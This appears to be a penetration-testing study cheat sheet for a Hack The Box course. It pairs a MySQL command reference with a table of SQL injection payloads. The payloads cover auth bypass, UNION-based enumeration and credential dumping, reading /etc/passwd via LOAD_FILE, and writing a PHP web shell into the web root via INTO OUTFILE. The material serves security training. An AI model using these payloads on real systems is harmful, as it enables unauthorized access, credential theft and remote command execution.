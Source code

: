 ```yaml
---
layout: post
title: "SQL Injection Fundementals"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 13
---
```


## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p<password>` | login to mysql database (there shouldn't be any spaces between '-p' and the password). |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |
| `SELECT * FROM ports UNION SELECT * FROM ships;` | Combine results from both tables |

## MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

---

## SQL Injection

## Auth Bypass

| **Payload**              | **Description**                      |
|--------------------------|--------------------------------------|
| `admin' OR '1'='1`       | Basic auth bypass                    |
| `admin')-- -`            | Basic auth bypass (with SQL comment) |
| **Reference**            | [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |

---

## Union Injection

| **Payload**                                                | **Description**                          |
|------------------------------------------------------------|------------------------------------------|
| `' ORDER BY 1-- -`                                         | Detect number of columns via `ORDER BY`  |
| `cn' UNION SELECT 1,2,3-- -`                               | Test UNION injection, discover columns   |
| `cn' UNION SELECT 1,@@version,3,4-- -`                     | Show MySQL version via UNION             |
| `UNION SELECT username,2,3,4 FROM passwords-- -`           | Extract usernames (4‑column UNION)       |

---

## DB Enumeration

| **Payload**                                                                                                                | **Description**                                            |
|----------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------|
| `SELECT @@version`                                                                                                         | Fingerprint MySQL and return version string                |
| `SELECT SLEEP(5)`                                                                                                          | Fingerprint MySQL via time delay                           |
| `cn' UNION SELECT 1,database(),2,3-- -`                                                                                     | Retrieve current database name                             |
| `cn' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -`                                                   | List all databases                                         |
| `cn' UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema='dev'-- -`                  | List tables in the `dev` database                          |
| `cn' UNION SELECT 1,column_name,table_name,table_schema FROM information_schema.columns WHERE table_name='credentials'-- -` | List columns in the `credentials` table                    |
| `cn' UNION SELECT 1,username,password,4 FROM dev.credentials-- -`                                                          | Dump all rows from `dev.credentials`                       |

---

## Privileges

| **Payload**                                                                                                                                       | **Description**                                 |
|---------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------|
| `cn' UNION SELECT 1,user(),3,4-- -`                                                                                                                | Show current MySQL user                        |
| `cn' UNION SELECT 1,super_priv,3,4 FROM mysql.user WHERE user='root'-- -`                                                                          | Check if `root` has SUPER privileges            |
| `cn' UNION SELECT 1,grantee,privilege_type,is_grantable FROM information_schema.user_privileges WHERE user='root'-- -`                           | List all privileges granted to `root`           |
| `cn' UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables WHERE variable_name='secure_file_priv'-- -`           | Show MySQL’s `secure_file_priv` setting         |

---

## File Injection

| **Payload**                                                                                                                                         | **Description**                      |
|-----------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------|
| `cn' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -`                                                                                                 | Read the `/etc/passwd` file          |
| `SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'`                                                                         | Write a string into a server‑side file |
| `cn' UNION SELECT '', '<?php system($_REQUEST[0]); ?>', '', '' INTO OUTFILE '/var/www/html/shell.php'-- -`                                            | Drop a PHP web shell into the web root |

---
